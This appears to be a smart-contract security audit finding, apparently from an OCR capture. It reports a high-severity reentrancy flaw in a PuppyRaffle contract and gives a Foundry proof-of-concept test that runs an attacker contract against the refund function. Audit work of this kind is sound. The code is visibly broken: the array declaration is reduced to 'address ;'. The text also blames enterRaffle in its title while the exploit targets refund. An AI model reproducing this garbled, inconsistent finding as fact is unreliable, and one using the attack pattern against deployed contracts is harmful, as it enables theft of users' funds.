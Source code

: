 ## High

### [H-1] Reentrancy vulnerability in `PuppyRaffle::enterRaffle` allows attacker to drain funds

**Description:**  
The `PuppyRaffle::enterRaffle` function is vulnerable to reentrancy attacks. An attacker can exploit this vulnerability by calling the `PuppyRaffle::enterRaffle` function multiple times within a single transaction, causing the contract to recursively call back into itself before the initial call is completed. This allows the attacker to manipulate the contract’s state and potentially withdraw funds more than once, draining the contract's balance. The contract does not have adequate protection against reentrancy, particularly within the refund mechanism.

**Impact:**  
An attacker can use this vulnerability to repeatedly call the `refund` function and drain the contract of its funds. This would allow the attacker to bypass the expected behavior of the contract, leading to loss of funds for the legitimate participants. Moreover, this attack could discourage users from participating in the raffle, as the integrity of the contract is compromised.



**Proof of Concept:**  
The vulnerability can be demonstrated through the following test and contract implementation, which exploits the reentrancy flaw by repeatedly calling the `refund` function.

```solidity
// Part of test for reentrancy attack
function test_reentrancyRefund() public {
    address ;
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attackUser");
    vm.deal(attackUser, 1 ether); // to give attackUser some money

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    // Attack
    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    console.log("starting attacker contract balance: ", startingAttackContractBalance);
    console.log("starting contract balance: ", startingContractBalance);

    console.log("ending attacker contract balance: ", address(attackerContract).balance);
    console.log("ending contract balance: ", address(puppyRaffle).balance);
}
```
